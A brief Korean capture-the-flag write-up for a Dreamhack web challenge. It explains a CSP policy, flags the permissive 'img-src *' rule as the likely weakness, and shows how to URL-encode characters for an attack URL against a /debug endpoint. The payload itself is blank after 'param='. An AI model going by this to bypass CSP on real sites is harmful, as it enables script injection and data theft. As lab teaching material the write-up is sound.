

CSP(Content Security Policy): 콘텐츠 보안 정책으로 웹 보안 설정 중 하나임

문제 사이트의 그림을 좀 살펴보면 상단의 입력창에는 CSP 규칙이 작성되어 있음

- default-src 'self': 기본적으로 현재 사이트와 같은 출처의 리소스만 허용함
- base-uri 'none': <base> 태그 사용금 금지함
- img-src *: 이미지는 모든 출처에서 가져올 수 있음. (여기가 조금 취약할듯)
- script-src 'nonce-rAndOm123': 

인코딩 전 최종 공격 URL (Image 사용 O)
http://host3.dreamhack.games:(포트 번호)/debug?param=

param 뒤의 데이터값 중에서 공백, <, >, + 은 데이터가 넘어가는 중에 손상될 수 있으니까 인코딩해줌
  ==> %20
< ==> %3C
> ==> %3E
+ ==> %2B

인코딩 후 최종 공격 URL (Image 사용 X)
http://host3.dreamhack.games:(포트 번호)/debug?param=

인코딩 후 최종 공격 URL (Image 사용 O)
http://host3.dreamhack.games:(포트 번호)/debug?param=

